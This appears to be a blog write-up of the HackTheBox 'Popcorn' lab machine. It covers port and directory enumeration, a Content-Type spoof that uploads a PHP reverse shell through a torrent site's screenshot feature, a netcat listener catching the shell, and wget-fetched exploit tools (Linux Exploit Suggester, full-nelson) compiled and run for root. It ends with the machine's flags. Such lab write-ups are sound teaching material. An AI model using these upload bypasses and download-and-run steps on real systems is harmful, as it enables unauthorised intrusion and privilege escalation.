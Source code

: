 ```yaml
---
layout: post
title: HackTheBox Popcorn
date: 2017-03-15
tags: [HackTheBox, Linux]
---
```


# Machine Synopsis

Popcorn, while not overly complicated, contains quite a bit of content and it can be difficult for some users to locate the proper attack vector at first. This machine mainly focuses on different methods of web exploitation. ([Source](https://www.hackthebox.com/machines/popcorn))

# Enumeration

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.6
Nmap scan report for 10.10.10.6
Host is up (0.0040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.12 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=4/20%OT=22%CT=1%CU=43492%PV=Y%DS=2%DC=T%G=Y%TM=625FA3E
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=C8%GCD=1%ISR=C9%TI=Z%CI=Z%II=I%TS=8)SEQ(S
OS:P=CB%GCD=1%ISR=D9%TI=Z%II=I%TS=B)OPS(O1=M505ST11NW6%O2=M505ST11NW6%O3=M5
OS:05NNT11NW6%O4=M505ST11NW6%O5=M505ST11NW6%O6=M505ST11)WIN(W1=16A0%W2=16A0
OS:%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF=Y%T=40%W=16D0%O=M505NNSNW6%C
OS:C=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=
OS:16A0%S=O%A=S+%F=AS%O=M505ST11NW6%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T5(R=N
OS:)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T6(R=N)T7(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RI
OS:D=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT     ADDRESS
1   3.70 ms 10.10.14.1
2   4.37 ms 10.10.10.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.18 seconds
```

Here is the default webpage.

![website](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Popcorn/website.png?raw=true)

Running `gobuster` on the webpage results in an interesting directory called `/torrent`.

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# gobuster dir -u http://10.10.10.6 -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
...
/index                (Status: 200) [Size: 177]
/test                 (Status: 200) [Size: 47032]
/torrent              (Status: 301) [Size: 310] [--> http://10.10.10.6/torrent/]
/rename               (Status: 301) [Size: 309] [--> http://10.10.10.6/rename/] 
...
```

![torrent_homepage](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Popcorn/torrent_homepage.png?raw=true)

There is an option to sign up for an account.

![sign_up](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Popcorn/sign_up.png?raw=true)

# Exploit

Upon logging into the newly created account, it was observed that there is an upload page.

![torrent_uploadpage](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Popcorn/torrent_uploadpage.png?raw=true)

It seems like we can upload a torrent file here, but can we uploading anything else? Uploading a PHP reverse shell returns an error “`This is not a valid torrent file`".

Let’s upload a proper torrent [file](https://webtorrent.io/free-torrents) instead.

![upload_torrent](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Popcorn/upload_torrent.png?raw=true)

It seems that after uploading the torrent, we can edit the torrent!

One of the features allow us to change the screenshot. Perhaps we can do something malicious here?

![edit_torrent](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Popcorn/edit_torrent.png?raw=true)

This time, trying to upload a PHP reverse shell resulted in a “`invalid file`” error. What if we intercepted the request and changed the `Content-Type: application/x-php` to `Content-Type: image/png`?

```http
HTTP/1.1 200 OK
Date: Wed, 20 Apr 2022 06:48:54 GMT
Server: Apache/2.2.12 (Ubuntu)
X-Powered-By: PHP/5.2.10-2ubuntu6.10
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: private
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 138
Connection: close
Content-Type: text/html

Upload: exploit.php<br />Type: image/png<br />Size: 5.3623046875 Kb<br />Upload Completed. <br />Please refresh to see the new screenshot.
```

Great! It works. However, where is the file being uploaded to? Running`Gobuster` on `http://10.10.10.6/torrent/` showed that there is an `/upload` directory.

![torrent_upload_dir](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Popcorn/torrent_upload_dir.png?raw=true)

Execute the reverse shell by clicking on the uploaded file.

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# nc -nlvp 1234       
listening on [any] 1234 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.6] 34129
...
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -r
2.6.31-14-generic-pae
```

# Privilege Escalation

Executed Linux Exploit Suggester to find out some possible vulnerabilities.

```bash
- On local machine - 
$ wget http://10.10.14.9:8000/les.sh
$ chmod +x les.sh
$ ./les.sh
...
Possible Exploits:
cat: write error: Broken pipe
[+] [CVE-2012-0056,CVE-2010-3849,CVE-2010-3850] full-nelson

   Details: http://vulnfactory.org/exploits/full-nelson.c
   Exposure: highly probable
   Tags: [ ubuntu=(9.10|10.10){kernel:2.6.(31|35)-(14|19)-(server|generic)} ],ubuntu=10.04{kernel:2.6.32-(21|24)-server}
   Download URL: http://vulnfactory.org/exploits/full-nelson.c

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},ubuntu=16.04|14.04|12.04
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

...
```

It seems like the machine is highly likely to be vulnerable to `full-nelson` (local privilege escalation) exploit!

```bash
$ wget http://10.10.14.9:8000/full-nelson.c
$ gcc full-nelson.c -o full-nelson
$ chmod +x full-nelson
$ ./full-nelson
id
uid=0(root) gid=0(root)
cd /home/george
cat user.txt
c1b9db61d386e3f830c010480ab54077
cd /root
cat root.txt
c5ba80b7f9f478d28cbbf7c59df47478
```
